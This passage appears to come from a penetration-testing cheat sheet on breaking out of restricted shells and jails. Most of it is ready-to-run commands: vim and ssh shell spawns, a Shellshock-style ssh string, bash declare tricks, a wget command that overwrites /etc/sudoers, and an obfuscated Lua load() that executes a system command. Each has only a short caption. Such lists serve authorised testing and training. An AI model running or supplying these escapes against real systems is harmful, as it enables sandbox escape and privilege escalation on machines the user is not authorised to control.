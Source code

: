 ### Using vim

```
:set shell=/bin/sh
:shell
```

### Create script

Check if you can create an executable file with /bin/bash as content

```
red /bin/bash
> w wx/path #Write /bin/bash in a writable and executable path
```

### Get bash from SSH

If you are accessing via ssh you can use this trick to execute a bash shell:

```
ssh -t user@<IP> bash # Get directly an interactive shell
ssh user@<IP> -t "bash --noprofile -i"
ssh user@<IP> -t "() { :; }; sh -i "
```

### Declare

```
declare -n PATH; export PATH=/bin;bash -i

BASH_CMDS[shell]=/bin/bash;shell -i
```

### Wget

You can overwrite for example sudoers file

```
wget http://127.0.0.1:8080/sudoers -O /etc/sudoers
```

It could also be interesting the page:

## Python Jails

Tricks about escaping from python jails in the following page:

## Lua Jails

In this page you can find the global functions you have access to inside lua: 

Eval with command execution:

```
load(string.char(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))()
```
